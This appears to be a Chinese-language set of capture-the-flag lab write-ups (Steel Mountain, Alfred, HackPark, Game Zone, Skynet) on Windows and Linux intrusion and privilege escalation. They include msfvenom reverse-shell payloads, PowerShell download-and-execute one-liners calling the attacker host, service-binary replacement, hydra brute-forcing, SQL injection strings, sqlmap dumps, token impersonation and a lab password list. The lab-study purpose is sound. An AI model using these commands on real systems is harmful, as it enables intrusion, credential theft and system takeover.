ServiceName : AdvancedSystemCareService9
Path : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFile : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFilePermissions : {WriteAttributes, Synchronize, ReadControl, ReadData/ListDirectory..
.}
ModifiableFileIdentityReference : STEELMOUNTAIN\bill
StartName : LocalSystem
AbuseFunction : Install-ServiceBinary -Name 'AdvancedSystemCareService9'
CanRestart : True
Name : AdvancedSystemCareService9
Check : Modifiable Service Files
ServiceName : IObitUnSvr
Path : C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe
ModifiableFile : C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe
ModifiableFilePermissions : {WriteAttributes, Synchronize, ReadControl, ReadData/ListDirectory..
.}
ModifiableFileIdentityReference : STEELMOUNTAIN\bill
StartName : LocalSystem
AbuseFunction : Install-ServiceBinary -Name 'IObitUnSvr'
CanRestart : False
Name : IObitUnSvr
Check : Modifiable Service Files
ServiceName : LiveUpdateSvc
Path : C:\Program Files (x86)\IObit\LiveUpdate\LiveUpdate.exe
ModifiableFile : C:\Program Files (x86)\IObit\LiveUpdate\LiveUpdate.exe
ModifiableFilePermissions : {WriteAttributes, Synchronize, ReadControl, ReadData/ListDirectory..
.}
ModifiableFileIdentityReference : STEELMOUNTAIN\bill
StartName : LocalSystem
AbuseFunction : Install-ServiceBinary -Name 'LiveUpdateSvc'
CanRestart : False
Name : LiveUpdateSvc
Check : Modifiable Service Files查看输出，有一个特定服务的 CanRestart 选项被设置为 true，此选项被设置为 true 后，我们就能够在系统上重新启动此服务；而且这个应用程序的目录也是可写的，这意味着我们可以用一个恶意应用程序替换合法的应用程序，一旦服务重新启动，我们的恶意程序将运行。
ServiceName ：AdvancedSystemCareService9
ModifiablePath：C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
msfvenom可用于生成反向shell的payload并将其输出为windows可执行文件，我们用msfvenom来生成一个和之前的应用程序同名的恶意应用程序:
#msfvenom -p windows/shell_reverse_tcp LHOST=<local_ip> LPORT=<local_port> -e x86/shikata_ga_nai -f exe-service -o filename.exe
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.81.232 LPORT=8888 -e x86/shikata_ga_nai -f exe -o ASCService.exemeterpreter > upload /opt/windows/PowerSploit/ASCService.exe
[*] Uploading : /opt/windows/PowerSploit/ASCService.exe -> ASCService.exe
[*] Uploaded 72.07 KiB of 72.07 KiB (100.0%): /opt/windows/PowerSploit/ASCService.exe -> ASCService.exe
[*] Completed : /opt/windows/PowerSploit/ASCService.exe -> ASCService.exe
meterpreter > shell
Process 2412 created.
Channel 6 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>sc stop AdvancedSystemCareService9
sc stop AdvancedSystemCareService9
SERVICE_NAME: AdvancedSystemCareService9
TYPE : 110 WIN32_OWN_PROCESS (interactive)
STATE : 4 RUNNING
(STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
WIN32_EXIT_CODE : 0 (0x0)
SERVICE_EXIT_CODE : 0 (0x0)
CHECKPOINT : 0x0
WAIT_HINT : 0x0
C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>dir
dir
Volume in drive C has no label.
Volume Serial Number is 2E4A-906A
Directory of C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
04/03/2024 08:48 PM .
04/03/2024 08:48 PM ..
04/03/2024 08:27 PM %TEMP%
04/03/2024 08:48 PM 73,802 ASCService.exe
02/16/2014 01:58 PM 760,320 hfs.exe
04/03/2024 08:38 PM 600,580 PowerUp.ps1
3 File(s) 1,434,702 bytes
3 Dir(s) 44,154,744,832 bytes free
C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>copy ASCService.exe "C:\Program Files (x86)\IObit\
Advanced SystemCare\ASCService.exe"
copy ASCService.exe "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
Overwrite C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe? (Yes/No/All): yes
yes
1 file(s) copied.关于SC命令（Windows shell不区分大小写）：
SC命令的格式：SC [Servername] command Servicename [Optionname= Optionvalues]
Servername：指定服务所在的远程服务器的名称。名称必须采用通用命名约定 (UNC) 格式（“\\myserver”）。如果是在本地运行SC.exe，请忽略此参数。
command ：如query,start,stop,create,config等
Servicename：服务名，也就是要配置的那个服务的名字，例如你要启动一个服务你就输入sc start +你要启动的服务名称（并非是服务显示名称）。
Optionname= Optionvalues：是选项名和选项的值。在重新启动服务之前，我们需要在攻击机终端中设置一个netcat侦听器:nc -lvnp 8888
不使用Metasploit获取初始访问权限并提权
注意：此处建议重启目标机。
现在，我们来看看如何在不使用 Metasploit 的情况下获得初始权限和进行权限提升。为此，我们将使用 PowerShell 和 winPEAS 来枚举目标系统并收集相关信息以提权到管理员用户。
我们还是使用之前提到的CVE编号所对应的漏洞来获取初始访问权限，然而，这次我们手动使用exp而不是通过msf来执行exp。
exp链接（一个python脚本）：https://www.exploit-db.com/exploits/39161
为了使这种攻击起作用，需要同时激活Web服务器和netcat侦听器，如果你的系统上还没有 netcat 静态二进制文件，那么你可以从GitHub下载。我们还将使用 winPEAS来枚举目标机系统信息。
netcat二进制文件：https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe
winPEAS（在下载页选择winPEASx64.exe）：https://github.com/carlospolop/PEASS-ng/releases/tag/20221009
为了方便起见，我新建了一个文件夹放置刚才下载的三个文件（exp脚本使用之前–记得修改好ip和端口，下载的netcat二进制文件要修改名称为nc.exe）：
查看exp脚本内容，我们能够发现该脚本已经指定要调用名称为nc.exe的文件
然后需要开启3个独立的终端窗口来完成攻击：
终端1-通过python启用 HTTP web 服务器
#终端界面进入到SteelMountain目录
#python3 -m http.server 8000 无响应
python2 -m SimpleHTTPServer 80终端2-设置netcat 监听器
nc -nvlp 8888终端3-执行exp进行攻击（注意所用脚本的python版本）
#终端界面进入到/home/hekeats/桌面/SteelMountain目录
python2 39161.py 10.10.61.11 8080 #第一次执行会将SteelMountain/目录下的nc.exe上传到目标系统
python2 39161.py 10.10.61.11 8080 #第二次执行会发送一个反向shell回连到攻击机监听器在终端2界面 成功获取目标机的shell：（这里我执行了三次才行，估计是某些问题吧，应该是两次的）
使用Powershell相关命令将winPEAS脚本拉取到目标系统上：
#使用终端2界面
cd C:\Users\Bill\Desktop
#Format is "powershell -c "command here"
powershell -c wget "http://10.11.81.232/winPEASx64.exe" -outfile "winPEAS.exe"运行winPEAS脚本（枚举目标系统的信息，如服务名称等）：
#使用终端2界面
winPEAS.exe
#我们也可以运行powershell -c 命令手动查找服务名称:powershell -c "Get-Service"运行winPEAS之后，查看输出的服务信息，观察在运行时"未引用路径"的服务名称：
使用msfvenom生成一个exe形式的反向shell payload，输出的文件名和服务对应的文件名相同（此处payload设置的端口，不要使用刚刚建立普通shell的端口）：
#使用终端3界面
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.81.232 LPORT=8888 -e x86/shikata_ga_nai -f exe -o ASCService.exe然后可以通过 PowerShell 将这些数据传输到目标系统中:
#使用终端2界面
powershell -c wget "http://10.11.81.232/ASCService.exe" -outfile "ASCService.exe"总结
依旧是nmap扫描，这里靠的是目标站web站点的漏洞，其中使用的是rejetto http file server，发现存在对应漏洞，接着利用msf成功拿到shell，接着就是提权，首先是通过powershell某个脚本，枚举出对方服务器的某个服务存存在配置错误问题，接着msfvenom生成了一个reverse_shell木马，上传到目标机，替换对应服务的exe之后，重新运行，拿到system权限。
然后还介绍了一个不通过msf提权的方法，主要就是利用exploit漏洞库对应的cve脚本，凭借该脚本利用方式还需要准备，nc.exe，winPEAS.exe，接着先监听拿到shell，上传winPEAS.exe来枚举靶机发现存在没有使用双引号引用路径的脆弱服务，按照上面的思路，依旧是替换他，重新运行，也是成功提权
0x05 Alfred挑战
在这个房间里，我们将学习如何利用广泛使用的自动化服务器上的常见错误配置（Jenkins - 此工具用于创建持续集成/持续开发管道，允许开发人员在对代码进行更改后自动部署其代码）。之后，我们将使用一个有趣的权限提升方法来获得完整的系统访问权限。
由于这是一个 Windows 应用程序，我们将使用 Nishang 来获得初始访问权限。存储库包含一组有用的脚本，用于初始访问、枚举和权限提升。在本例中，我们将使用反向 shell 脚本。
请注意，此计算机不响应 ping （ICMP），可能需要几分钟才能启动。——我说怎么ping不通，以为我自己的问题
初始访问
直接上nmap扫描：nmap -T5 -sV -sC 10.10.40.248 -Pn
接下来一个个访问发现在8080存在一个Jenkins工具，找到其工具下的一个命令执行功能，上传对应的powershell反弹shell脚本，最后执行，具体如下图
powershell iex (New-Object Net.WebClient).DownloadString('http://10.11.81.232:81/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.11.81.232 -Port 5555
//构建好payload如下图，在首页点击new item创建新项目，接着到build功能下，写入payload，最后点击apply再save保存
保存来到首页，点击build now，发现得到shell
切换shell
为了使权限提升变得更容易，让我们使用以下过程切换普通的反向shell到 Meterpreter shell。
第一步使用 msfvenom 创建一个能够生成Windows Meterpreter 反向shell的exe文件：
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.11.81.232 LPORT=5555 -f exe -o hybcx.exe以上有效载荷将生成一个经过编码处理的 x86-64 反向 tcp meterpreter shell文件，使用编码处理在一定程度上可以确保所生成的shell文件能够被正确传输，并且还可以逃避一些反病毒软件。
第二步，把生成的exe文件转移到nishang/Shells目录下，在nishang/Shells目录下创建http服务（python3 -m http.server 8000），继续修改以下命令：
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.11.81.232:81/hybcx.exe','hybcx.exe')"进入之前获取的普通反向shell界面，运行以上命令：以上命令会下载攻击机中的指定exe文件到目标机上（也可以使用与上个任务相同的方式来下载exe文件至目标机）
第三步，在攻击机上另外启动一个终端 用于设置MSF监听器，命令如下：
之后靶机上启动对应exe程序
权限提升
现在我们有了初始访问权限，我们就可以尝试使用令牌模拟来获得system访问权限（system权限是Windows系统中的最高级别权限）。Windows 可以使用令牌来确保某个账户具有执行特定操作的正确权限，当用户成功登录或通过身份验证机制时，账户令牌（tokens ）就会被分配给账户，这通常由 LSASS.exe 完成（你可以将其视为一个身份验证进程）。
此访问令牌包括以下信息：
- user SIDs(security identifier)
- group SIDs
- privileges
除其他事项外，更详细的信息请参考：https://learn.microsoft.com/en-us/windows/win32/secauthz/access-tokens
有两种类型的访问令牌：
- 主访问令牌(primary access tokens)：此类令牌是指与登录时所生成的用户账户相关联的令牌。
- 模拟令牌(impersonation tokens)：此类令牌能够允许特定进程（或进程中的线程）使用另一个（用户/客户端）进程的令牌来访问相关的资源。
对于模拟令牌，有不同的级别：
- SecurityAnonymous：当前 用户/客户端 不能模拟另一个 用户/客户端。
- SecurityIdentification：当前 用户/客户端 可以获得客户端的身份和权限，但不能模拟客户端。
- SecurityImpersonation：当前 用户/客户端 可以在本地系统上模拟客户端的安全上下文。
- SecurityDelegation：当前 用户/客户端 可以在远程系统上模拟客户端的安全上下文。
tips：这里的安全上下文是指一个包含用户相关安全信息的数据结构。
账户所具有的权限（在账户创建时授予账户的权限或者从group处继承的权限）能够允许对应用户执行一些特定操作，以下是最常被滥用的特权：
- SeImpersonatePrivilege
- SeAssignPrimaryPrivilege
- SeTcbPrivilege
- SeBackupPrivilege
- SeRestorePrivilege
- SeCreateTokenPrivilege
- SeLoadDriverPrivilege
- SeTakeOwnershipPrivilege
- SeDebugPrivilege
更多关于令牌特权滥用的信息请参考：https://www.exploit-db.com/papers/42556
输入whoami /priv查看当前用户所有权限
可以看到目标机启用了两个关键权限（SeDebugPrivilege、SeImpersonatePrivilege），这两个权限能够让我们使用MSF中的模块来进行令牌模拟操作
接着在meterpreter shell中load incognito
模块加载完成之后 输入list_tokens -g命令检查哪些令牌可用，我们发现BUILTIN\Administrators令牌可用，所以我们可以模拟管理员令牌，模拟完成后，再运行getuid命令，可以看到此时我们的uid已经变更为SYSTEM的uid，说明模拟令牌成功。
即使我们现在拥有更高特权的令牌（token ），我们实际上也可能没有对应的特权用户的权限（由于 Windows 处理权限的方式 - Windows会使用主令牌而不是模拟令牌来确定某个进程的权限分配情况）；所以我们还需要迁移到具有正确权限的进程，我们可以选择迁移到最安全的services.exe进程，首先使用ps命令查看所有进程，找到services.exe进程的PID，然后使用migrate PID-OF-PROCESS迁移到目标进程，具体命令如下：
getpid #查看当前进程pid
ps #查看所有的进程
migrate 668 #迁移到services.exe进程 需指定目标进程的PID号总结
依旧是利用靶机的web站点缺点，对方含有jenkins组件，该组件的版本恰好存在漏洞，利用其中的某个功能能够执行命令，接着利用其执行了powershell的反弹shell脚本，nc监听拿到shell，之后为了稳定+方便，要切换到meterpreter shell，思路是msfvenom生成meterpreter reverse_shell上传到靶机之后，运行（在本地开了msf监听模块）之后成功拿到shell，之后利用模仿令牌来提权，load incognito看到对方可以模仿的令牌之后，利用命令成功模仿，但我们当前是模仿令牌但不是主令牌，因此需要migrate迁移到正确权限的程序，之后就成功提权（这里我没有尝试直接迁移会如何，下次得记着）。
0x06 HackPark挑战
连接到我们的网络并部署这台机器。请耐心等待，因为这台机器最多可能需要 5 分钟才能启动！您可以通过访问我们的访问页面来测试您是否连接到我们的网络。请注意，此计算机不响应 ping （ICMP），可能需要几分钟才能启动。
本会议室将介绍暴力破解帐户凭据、处理公共漏洞、使用 Metasploit 框架和 Windows 上的权限升级。
hydra暴力破解
Hydra 是一种并行化、快速且灵活的登录破解工具。
暴力破解会尝试使用多种密码组合进行登录。 字典攻击也是一种暴力破解，我们可以通过字典内容迭代来获取正确的密码组合。
我们需要找到一个登录页面来攻击并确定表单向网络服务器发出的请求类型。通常，Web 服务器发出两种类型的请求，一种是用于从 Web 服务器请求数据的 GET 请求，另一种是用于向服务器发送数据的 POST 请求。
您可以通过右键单击登录表单，检查元素，然后读取方法字段中的值来检查表单发出的请求。如果您通过 BurpSuite 拦截流量，您也可以识别这一点（可以在此处找到其他 HTTP 方法）。
Windows 网站登录表单使用什么请求类型？——POST类型
现在我们知道请求类型和登录表单的 URL，我们可以使用hydra对登陆框进行暴力破解。
我们将填充并使用以下命令：
hydra -l <username> -P /usr/share/wordlists/<wordlist> <ip> http-post-form <login request pattern>
#关于http-post-form："<path to login form>:<body, with magic strings ^USER^ and ^PASS^>:<pattern that appears in an invalid login>"需要填充的字段有：用户名（admin）和IP(靶机IP)以及字典（rockyou.txt），在http-post-from后加上网站登陆页的URL以及POST请求所对应的表单数据（表单数据可通过Burp抓取或者在浏览器端直接查看），其中用户名和密码要修改格式（USER和PASS），最后再加上登录错误时的提示语句“Login failed”（将浏览器语言设置为英文）。
具体命令如下：
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.9.70 http-post-form "/Account/login.aspx:__VIEWSTATE=A79cd%2Fd56MBqXHayonGgo9MFuFbQU6QPgXzIC%2B9FMhzTK7iMPj4zufjKqn3GNZWqtmDPLnM3RtK7TkB%2BYvlEkWuMDAJirSykwjQ%2FxVGWAv5Cyji4ywzRTSm9iL8I8dMNvvhWDbZe6qWUFX%2FEOOnmbrp1mU4IPOxzJGSnYTY2CNw6wYAJHPUHh%2FB388uvKDteVckgTZtgt66yI8xd5etFdURzNBbnCs4dJswVuPShvKWGKbJUyHFJ5jadz4XvkArprAEcDAd9Ll%2F5zkDvEiLHoGYMwRJLCQj05O1NF7MYjsnmc0WKGMfbhqXmWkGAwpvRJolCxYkjmJfsevJUigud7%2BppQIWb%2BVcVi00Eo8qr1RtOJ%2FKB&__EVENTVALIDATION=QRBLSmDgKfpCrfL79eVdKup%2FRJ91Bmhgi7SgxOupvZnLmSVshmyDfmOIr%2BKc%2FyeXqYKrM4YA%2FHCfDF3SfBc%2BT1Wpxa9ownCMxyjUQ5Y3drEvWm11h2mdfvuiMXcRGqkQ7Li8bDSDDgR13qwydwbPI6xcL1ciNTevksX%2BsVcHfSVf8W1w&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"d
这里需要将浏览器语言设置为英文，还需要配置登陆失败提示语（页面回显发现的）
Hydra 有很多功能，并且有许多可用的“模块”（我们刚才使用的 http-post-form就是模块的一种），此工具不仅适用于暴力破解 HTTP 表单，还适用于破解其他计算机协议相关的登陆密码，例如 FTP、SSH、SMTP、SMB 等协议。
下面是一个关于Hydra的迷你备忘单：
命令 说明
hydra -P <wordlist> -v <ip> <protocol> 针对某一协议进行暴力破解操作
hydra -v -V -u -L <username list> -P <password list> -t 1 -u <ip> <protocol> 使用Hydra来暴力破解用户名和密码（-vV：表示使用详细模式）。
hydra -t 1 -V -f -l <username> -P <wordlist> rdp://<ip> 使用密码字典以攻击Windows远程桌面主机。
hydra -l <username> -P <password list> $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' 为Hydra提供更具体的信息以进行暴力破解操作。获取目标web应用程序的初始shell
识别并执行一个公共漏洞利用脚本（来自 exploit-db.com）以在目标Windows机器上获得初始访问权限！
Exploit-Database 是一个 CVE（常见漏洞和泄露）存档库，该库用于保存一些公开漏洞exp和相应的易受攻击的软件信息，以便于渗透测试人员使用和开展漏洞研究。Exploit-Database 由 Offensive Security组织所维护（该组织同时也负责OSCP和Kali）。
登录进去之后发现该网站所使用的框架，上exploit搜索相关漏洞
搜到之后，跟着目录描述一步步拿到shell
First, we set the TcpClient address and port within the method below to
* our attack host, who has a reverse tcp listener waiting for a connection.
* Next, we upload this file through the file manager. In the current (3.3.6)
* version of BlogEngine, this is done by editing a post and clicking on the
* icon that looks like an open file in the toolbar. Note that this file must
* be uploaded as PostView.ascx. Once uploaded, the file will be in the
* /App_Data/files directory off of the document root. The admin page that
* allows upload is:简单说就是现在exp文件修改监听端口和IP，接着在如下图所示的地方上传文件，注意文件名必须是PostView.ascx
之后访问指定目录：http://IP/?theme=../../App_Data/files即可拿到shell
权限提升
在此任务中，我们将了解 Windows 权限提升的基础知识。
首先，我们将从 netcat 转向 meterpreter 会话，并使用它来枚举机器以识别潜在的漏洞。然后，我们将使用收集到的信息来利用该系统并成为管理员。
上一小节建立的netcat 会话有点不稳定，我们可以使用 msfvenom 来建立一个新的反向shell。我们可以将普通shell升级为 meterpreter会话，此处需要使用 metasploit 来设置一个监听器。
首先，启动一个终端，运行metasploit并启动一个监听器。——老生常谈了
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.81.232 LPORT=5555 -e x86/shikata_ga_nai -f exe -o shell.exe接着开启http服务，上传文件到目标机上
使用上一小节中所建立的shell界面拉取本地机中的exe文件到目标机上并执行该exe文件。
tips：
- 我们通常会发现目标系统的C:\Windows\Temp是全局可写的！我们可以利用这一点在目标机上操作–拉取本地机中的文件到目标系统上并尝试执行这些文件。
- 例子（前提是在本地机启动http服务器）：powershell -c “Invoke-WebRequest -Uri ‘ip/shell.exe’ -OutFile ‘C:\Windows\Temp\shell.exe’”
- 使用 .\filename.exe 在目标机上执行这些文件。
sysinfo查看目标系统版本信息
在此处：我们可以使用一个名为 WinPEAS 的工具。 WinPEAS 是一个脚本，它可以在 Windows 机器上找到可能会被攻击者利用的路径和服务。
脚本地址：https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS/winPEASexe
上传WinPEAS脚本文件到目标机（方法和之前类似，此处使用第三小节中建立的的普通shell界面进行上传，也可以使用刚才建立的meterpreter 会话进行上传）
异常服务就是上述的红色框中的，这里是看不出来运行的exe文件的，还需要进入systemscheduler目录下看看
如上图看到了众多的exe文件，但我们要找的是该服务会去运行的程序，因此需要进入Events事件查看器看一下该服务的运行日志
可以看到运行的程序文件为Message.exe，接下来就是使用该程序提升权限
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.81.232 LPORT=5555 -e x86/shikata_ga_nai -f exe -o Message.execopy Message.exe "C:\Program Files (x86)\SystemScheduler\Message.exe"这样便成功覆盖上述正常exe文件，之后直接run运行监听模块即可，因为该服务会持续运行Message.exe
发现成功为管理员身份

没有 Metasploit 的权限升级
在这个任务中，我们将在不使用 meterpreter/metasploit 的情况下升级我们的权限！
首先，我们将从我们已经建立的 netcat 会话转向更稳定的反向 shell。一旦我们确定了这一点，我们将使用winPEAS来枚举系统的潜在漏洞，然后再使用此信息上报给管理员。
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.81.232 LPORT=8888 -e x86/shikata_ga_nai -f exe -o shell.exepowershell -c wget "http://10.11.81.232:81/reverse.exe" -outfile reverse.exe最终成功拿到
总结
这里依旧是针对web站点的漏洞，首先测试发现存在可以暴力破解的html表单，使用hydra破解之后，发现该站点的组件存在漏洞，利用漏洞利用描述方法，nc监听拿到shell，之后就转换为meterpreter shell（老生常谈了，不赘述）然后上传winPEAS.exe发现存在服务配置缺陷，不过这里还有点东西的，因为你可以看到该服务目录下存在多个exe，无法判断该服务运行的是谁，因此需要到events，看一下该服务的运行日志发现了其运行exe，之后就明确了。
0x07 Game Zone挑战
本会议室将介绍 SQLi（手动和通过 SQLMap 利用此漏洞）、破解用户哈希密码、使用 SSH 隧道揭示隐藏服务以及使用 metasploit 有效负载获得 root 权限。
这里反向图片识别，发现该图片的人物名字为agent 47
通过SQLi获取访问权限
在本小节中，你将更多地了解 SQL（结构化查询语言）以及如何潜在地操纵查询语句以便与数据库进行通信。
SQL 是一种标准语言，用于在数据库中存储、编辑和检索数据。 SQL查询语句可能如下所示：
SELECT FROM users WHERE username = ‘username’ AND password = ‘password’
在目标靶机后台，当你尝试登录目标站点时，它会从登录页的用户名输入框和密码输入框中获取你所输入的值，然后将这些值直接插入到上面的查询语句中。 如果该查询语句找到有效数据得以匹配，你将被允许登录目标站点，否则将在登录页面上显示一条错误消息提示。
这是一个潜在的漏洞位置（登录框），因为你可以输入你所构造的用户名–将用户名构造为SQL 查询语句，这将写入、拼接并执行查询操作。
我们可以使用在上面学到的知识，在没有任何合法凭据的情况下操纵查询语句并实现登录行为。如果我们输入用户名 admin，输入密码' or 1=1 # 它会将密码中的值插入到后端查询语句中并验证我们的会话是否有效。
现在在 Web 服务器上执行的具体 SQL 查询如下：
SELECT * FROM users WHERE username = ‘admin’ AND password =’ ’ or 1=1 # ’
我们作为密码输入的额外SQL语句（' or 1=1 #）将会更改目标后端的初始查询为上述语句，这将中断初始查询过程并在 1==1 时继续（此时是管理员用户身份），然后我们将注释该查询的后接部分（使用**–**符号进行注释）以阻止SQL查询中断。
即使目标靶机的数据库中没有管理员用户，你仍然可以使用我们在上面所提到的值（' or 1=1 #）在不知道任何凭据的情况下完成登录。在登录页面，我们可以使用' or 1=1 #作为登录的用户名并将密码框一栏直接留空。
这里我在用户名的地方输入’ or 1=1 #，成功跳转
使用SQLmap
SQLMap 是一种流行的开源自动 SQL 注入和数据库接管工具，它预装在所有版本的 Kali Linux 上，当然你也可以手动下载和安装SQLMap工具。
在web安全领域有许多不同类型的 SQL 注入（比如基于布尔的注入、基于时间的注入等），而SQLMap 工具将尝试使用不同的技术自动化整个注入过程。
我们将使用 SQLMap 针对目标靶机转储它的整个数据库–使用我们之前登录的页面，我们将 SQLMap 指向目标站点的评论搜索功能。
首先，我们需要使用 BurpSuite 拦截对目标站点的搜索功能的请求。
接着将上述内容cv到一个文件夹中，然后我们再将其传递给 SQLMap工具 以使用我们已经经过身份验证的用户会话。
sqlmap -r request.txt --dbms=mysql --dump
-r 读取之前已保存的burpsuite所拦截的请求信息
–dbms 告诉 SQLMap 目标是什么类型的数据库管理系统
–dump 尝试转储整个数据库数据（真实环境下请谨慎使用dump参数）
输入以上命令之后，将在终端启动SQLMap 并尝试使用不同的注入方法以验证一些易受攻击的漏洞，最终，它将会输出目标数据库中的数据信息到终端界面。
POST /portal.php HTTP/1.1
Host: 10.10.63.45
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: http://10.10.63.45
Connection: close
Referer: http://10.10.63.45/portal.php
Cookie: PHPSESSID=2ggt1pm0albmt14khadge49ne0
Upgrade-Insecure-Requests: 1
searchitem=test这里还是重换了一个靶机，刚开始的扫不出来漏洞。。。这里发现密码可以直接爆破出来
使用 JohnTheRipper 破解密码
我们需要学会使用工具来装13
开膛手约翰 (JTR) 是一种快速、免费且开源的密码破解程序，这个工具预装在所有 Kali Linux 机器上。我们将使用JTR程序来破解我们之前获得的哈希密码值， JohnTheRipper 已有 15 年历史，当然还有一些其他密码破解程序例如 HashCat等。
JohnTheRipper程序的工作原理是先获取一个密码单词表，然后用指定的hash算法对其进行散列处理，再将其与目标散列密码（hash密码值）进行比较，如果两个散列密码相同，则表示已找到目标散列密码所对应的明文密码–即破解成功。因为我们不能直接反转目标散列值来得到明文密码，所以我们需要通过比较散列值来完成对目标hash值的猜解过程。
在本地攻击机上安装 JohnTheRipper 后，你可以使用以下参数针对目标哈希进行破解：
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=Raw-SHA256–wordlist - 是你用来破解目标哈希值的密码单词列表
hash.txt - 包含目标哈希值的列表（在一般情况下它的内容只是 1 个哈希值）
–format - 指明将要使用的散列算法类型，在上面的命令中，它表示使用 SHA256 算法进行哈希处理。
ssh agent47@10.10.63.45使用反向 SSH 隧道暴露目标隐藏服务
反向 SSH 端口转发能够 指定将远程服务器主机上的给定端口转发到本地端的给定主机和端口。
-L 是本地隧道 (YOU <-- CLIENT 由远程客户端到你的本地机)。 如果某个站点被阻止，你可以将流量转发到你所拥有的服务器上并查看它。
例如，如果站点imgur在工作中被阻止，你可以执行
ssh -L 9000:imgur.com:80 user@example.com，然后在你的本地机器上访问localhost:9000，这将使用你所拥有的其他服务器加载站点imgur的流量。-R 是远程隧道（YOU --> CLIENT 由你的本地机到远程客户端）。 这意味着你将流量转发到另一台服务器以供其他人查看，该过程与上面的本地隧道示例类似，但加载流量的结果相反。
我们将使用一个名为 ss 的工具来调查主机上所运行的套接字（socket ），如果我们运行命令 ss -tulpn 它将告诉我们主机上正在运行哪些套接字（socket ）连接。
接着我们访问本地10000端口即可
这里利用agent47用户密码登录即可查看
提升权限到root
根据CMS版本，使用 Metasploit 搜索能够针对目标机器执行的有效负载 即payload。
启动msf，搜索可用模块。
设置参数并执行payload。
set PAYLOAD payload/cmd/unix/reverse
options
set USERNAME agent47
set PASSWORD videogamer124
set RHOSTS 127.0.0.1
set LHOST 10.13.16.58 #攻击机所使用的连接至TryHackMe平台的内部vpn ip地址
set SSL false
exploit/root/root.txt下
总结
针对web站点的登录框功能，采用了sql注入的万能密码，也是成功进入，之后针对其中的数据查询功能，采用SQLmap判断其中是否存在sql注入（post注入），最后dump出了用户名和密码，采用john工具解密出了密码，然后ssh远程登录。
随后ss -tulpn看到当前tcp套字连接情况，随后看到10000端口不出网，尝试ssh本地端口转发，使得我们可以从本地访问该端口，成功访问之后，采用用户名密码登录进去，发现存在webmin cms漏洞，接着就是常规msf exploit的利用。
0x08 Skynet挑战
nmap -T5 -sC -sV -p- 10.10.187.5这里看到139与445端口的开放，尝试枚举一下smb看一下共享的文件有哪些（这里无密码即可）
smbclient -L \\10.10.187.5
看到匿名用户anonymous文件夹，继续访问看一下该文件夹下存在什么
smbclient //10.10.187.5/anonymous之后进入logs查看日志文件，发现log2.txt含有相关密码信息
cyborg007haloterminator
terminator22596
terminator219
terminator20
terminator1989
terminator1988
terminator168
terminator16
terminator143
terminator13
terminator123!@#
terminator1056
terminator101
terminator10
terminator02
terminator00
roboterminator
pongterminator
manasturcaluterminator
exterminator95
exterminator200
dterminator
djxterminator
dexterminator
determinator
cyborg007haloterminator
avsterminator
alonsoterminator
Walterminator
79terminator6
1996terminator这里没思路了，看了wp是去找web站点的可疑点了，gobuster扫目录，发现squirrelmail可疑目录
这里是个邮件登录系统，可以联想到之前的邮件用户名，使用hydra爆破一下看看
hydra -l milesdyson -P log1.txt 10.10.187.5 http-form-post "/squirrelmail/src/redirect.php:login_username=milesdyson&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect"
成功得到密码milesdyson:cyborg007haloterminator
登录进去之后看到了smb密码重置，里面是当前smb服务密码：
)s{A&2Z=F^n_E.B`这里联想到登录前面的smb共享账户milesdyson
可以找到该账户notes备忘录中的信息，发现这里添加了个CMS，我们访问看看
尝试在二级目录下继续扫描敏感目录
dirsearch -u "http://10.10.187.5/45kra24zxs28v3yd/"
访问得到Cuppa CMS
漏洞库找到CMS漏洞， 发现存在远程文件包含，那直接包含我们构造的恶意shell文件（在我们的恶意服务器上）
如上图，成功拿到shell，这以后得提权就不是常规思路了，我想到了suid，但是没办法利用，结果wp先是搞了一个稳定shell，看的计划任务，但就算我看到计划任务，也不知道如何利用（虽然想到修改，但是在那个shell下无法正常使用vim）
Tar通配符漏洞提权
which python #验证目标机有无Python环境
python -c "import pty ; pty.spawn('/bin/bash')" #利用Python环境将当前shell切换为一个更稳定的shell这里看到backup.sh存在计划任务，我们看其中写的什么
-rwxr-xr-x 1 root root 74 Sep 17 2019 backup.sh由上图可知以下信息：
backups目录下有一个backup.sh文件，其内容和作用是–切换目录至/var/www/html 并将该目录下的所有内容归档为backup.tgz压缩文件，该tgz文件保存在backups目录下；
